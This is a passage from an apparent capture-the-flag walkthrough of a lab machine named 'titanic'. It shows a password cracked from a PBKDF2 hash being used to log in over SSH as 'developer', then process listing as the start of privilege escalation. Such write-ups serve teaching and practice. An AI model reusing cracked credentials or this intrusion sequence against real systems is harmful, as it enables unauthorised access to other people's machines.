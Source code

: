 ```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => q
```

Now try `25282528` as the password for ssh as "developer"...

```
$ ssh developer@10.10.11.55
developer@10.10.11.55's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Feb 18 08:13:23 PM UTC 2025

  System load:           0.0
  Usage of /:            67.4% of 6.79GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             229
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe94:adc8


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

[...]
```

...and there's our shell!

## Root

Let's try and be authentic for once and this time not run Linpeas straight away. What's running on the box?

```
developer@titanic:~$ ps fauxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
develop+    5209  0.0  0.1   8768  5732 pts/2    Ss   20:15   0:00 -bash
develop+    5771  0.0  0.0  10044  1608 pts/2    R+   20:30   0:00  \_ ps fauxww
develop+    5086  0.0  0.1   8656  5372 pts/1    Ss+  20:13   0:00 -bash
develop+    1735  0.1  4.1 1402312 164192 ?      Ssl  18:05   0:11 /usr/local/bin/gitea web
develop+    2033  0.0  0.2  17060  9864 ?        Ss   18:13   0:00 /lib/systemd/systemd --user
develop+    1227  0.0  0.7 259540 30216 ?        Ss   18:05   0:01 /usr/bin/python3 /opt/app/app.py
```

